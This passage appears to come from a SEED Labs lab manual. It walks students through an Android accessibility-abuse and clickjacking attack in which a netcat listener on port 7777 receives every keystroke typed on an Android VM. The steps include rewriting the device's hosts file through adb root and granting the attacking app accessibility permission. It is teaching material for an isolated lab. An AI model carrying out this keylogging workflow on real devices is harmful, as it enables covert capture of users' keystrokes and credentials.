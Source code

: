\paragraph{Performing the Attack: }
Follow the steps below to perform the attack. We will need both the VM's for this task.

\begin{enumerate}
\item Step 1: On your SEEDUbuntu machine, open a terminal and run the following command:
\begin{lstlisting}
$ nc -kl 7777 
\end{lstlisting}
\item Step 2: On yourAndroidVM machine, you need to modify the
/system/etc/hosts file and modify the IP address of
"SeedLabsClickjacking.com" with the IP address of your SEEDUbuntu VM. In
order to do this, we will use "adb push" and "adb pull". On your SEEDUbuntu
machine, do the following:

\begin{lstlisting}
$ adb root
$ adb disconnect
$ adb connect IP-OF-ANDROIDVM
$ adb pull /system/etc/hosts
$ vim hosts
$ adb push hosts /system/etc/
\end{lstlisting}
\item Step 3: Give accessibility permissions to our applications. For this:

\begin{lstlisting}
Go into settings -> Accessibility -> ClickJacking Attack -> Toggle on -> OK
\end{lstlisting}

\item Step 4: Play around in your AndroidVM and watch the SEEDUbuntu netcat
session recieve everything you do. Try to type in the browser of the
Android VM and you will be able to see each key being logged in our
SEEDUbuntu machine. 

\end{enumerate}

Refer to Figure 4 to see how a keylog response looks like on our SEEDUbuntu machine.

Everything we do in step 3 of this attack can be done using clickjacking
attack. If attackers were to get your accessibility permission on their
application, all your information could be leaked.

\begin{figure}[htb]
  \begin{center}
    \texttt{[image: \\clickFigs/Figure4.png]}
  \end{center}
  \caption{Keylog Response on SEEDUbuntu}
\end{figure}


